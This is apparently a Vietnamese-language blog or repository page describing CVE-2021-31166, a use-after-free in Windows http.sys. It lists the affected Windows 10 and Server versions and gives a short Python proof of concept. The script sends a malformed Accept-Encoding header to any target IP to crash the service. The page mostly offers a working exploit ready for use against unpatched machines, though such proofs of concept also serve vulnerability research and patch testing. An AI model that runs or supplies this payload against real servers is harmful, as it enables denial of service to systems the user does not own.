 ```yaml
---
title: CVE-2021-31166
date: 16/6/2021
layout: single
header:
  teaser: /assets/images/cve.PNG
--- 
```

[![Language](https://img.shields.io/badge/Lang-Python-blue.svg)](https://www.python.org)

## Mô Tả 

Đây là bằng chứng về khái niệm cho CVE-2021-31166 ("Lỗ hổng thực thi mã từ xa của ngăn xếp giao thức HTTP"), một điểm truy cập sử dụng sau khi miễn phí trong `http.sys` được Microsoft vá vào tháng 5 năm 2021.

Theo như tôi biết, nó chỉ có thể kích hoạt chương trình bị lỗi, hãy sử dụng nó một cách thận trọng.


## Các nền tảng bị ảnh hưởng 
+ Windows Server, version 20H2 (Server Core Installation)

+ Windows 10 Version 20H2 for ARM64-based Systems

+ Windows 10 Version 20H2 for 32-bit Systems

+ Windows 10 Version 20H2 for x64-based Systems

+ Windows Server, version 2004 (Server Core installation)

+ Windows 10 Version 2004 for x64-based Systems

+ Windows 10 Version 2004 for ARM64-based Systems

+ Windows 10 Version 2004 for 32-bit Systems

# Demo
![demo](https://raw.githubusercontent.com/0vercl0k/CVE-2021-31166/main/pics/trigger.gif)
## Python


```python 
# python file.py --target=ip
import requests
import argparse

def main():
    parser = argparse.ArgumentParser('PoC for CVE-2021-31166: remote UAF in HTTP.sys')
    parser.add_argument('--target', required = True)
    args = parser.parse_args()
    r = requests.get(f'http://{args.target}/', headers = {
        'Accept-Encoding': 'doar-e, ftw, imo, ,',
    })
    print(r)

main()

```

---

## Thanks :D
